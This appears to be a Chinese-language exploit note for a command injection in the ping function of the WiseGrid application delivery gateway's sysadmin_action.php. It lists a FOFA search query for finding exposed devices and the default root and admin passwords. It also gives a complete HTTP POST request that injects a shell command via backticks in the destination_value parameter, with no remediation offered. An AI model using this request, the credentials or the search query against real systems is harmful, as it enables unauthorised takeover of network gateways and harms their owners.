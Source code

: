 # 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

```
信诺瑞得 WiseGrid慧敏应用交付网关
```

## FOFA

```
app="WiseGrid慧敏应用交付网关"
```

## 漏洞复现

登录页面

![image-20220525143430650](./images/202205251434774.png)

默认口令

```
ssh：root/sinogrid
web: admin/sinogrid
```

```
![2](C:/Users/47236/Desktop/2.png)![2](C:/Users/47236/Desktop/2.png)POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```

![](./images/202205251433134.png)

![]()![2](./images/202205251434769.png)